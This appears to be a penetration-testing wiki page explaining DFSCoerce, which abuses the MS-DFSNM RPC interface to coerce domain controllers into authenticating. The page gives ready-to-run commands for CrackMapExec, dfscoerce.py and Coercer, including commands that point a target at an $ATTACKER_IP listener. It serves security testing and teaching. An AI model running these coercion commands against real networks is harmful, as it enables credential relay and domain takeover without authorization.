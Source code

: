 # MS-DFSNM abuse (DFSCoerce)

## Theory

MS-DFSNM is Microsoft's Distributed File System Namespace Management protocol. It provides an RPC interface for administering DFS configurations ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)). That interface is available through the `\pipe\netdfs` SMB named pipe.

In mid-2022, [Filip Dragovic](https://twitter.com/filip\_dragovic) demonstrated the possibility of abusing the protocol to coerce authentications. Similarly to other MS-RPC abuses, this works by using a specific method relying on remote address. In this case (as of July 6th, 2022), the following methods were detected vulnerable: `NetrDfsRemoveStdRoot` and `NetrDfsAddStdRoot`. It is worth noting this coercion method only works against domain controllers.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) can be used to check if the target is vulnerable to DFSCoerce.

```bash
crackmapexec smb <TARGET> -u <USER> -p <PASSWORD> -M dfscoerce
```
{% endtab %}

{% tab title="Practice" %}
#### DFSCoerce

The following Python proof-of-concept ([https://github.com/Wh04m1001/DFSCoerce](https://github.com/Wh04m1001/DFSCoerce)) implements the `NetrDfsRemoveStdRoot` and `NetrDfsAddStdRoot` methods.

```bash
dfscoerce.py -d "domain" -u "user" -p "password" LISTENER TARGET
```

#### Coercer

Another alternative is to use the [Coercer](https://github.com/p0dalirius/Coercer/tree/master) tool (python) as follow.

```bash
# Coerce
coercer coerce -u $USER -p $PASSWORD -d $DOMAIN --filter-protocol-name MS-DFSNM -l $ATTACKER_IP -t $TARGET_IP

# Coerce a specific method
coercer coerce -u $USER -p $PASSWORD -d $DOMAIN --filter-method-name NetrDfsRemoveStdRoot -l $ATTACKER_IP -t $TARGET_IP
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979" %}

{% embed url="https://github.com/Wh04m1001/DFSCoerce" %}
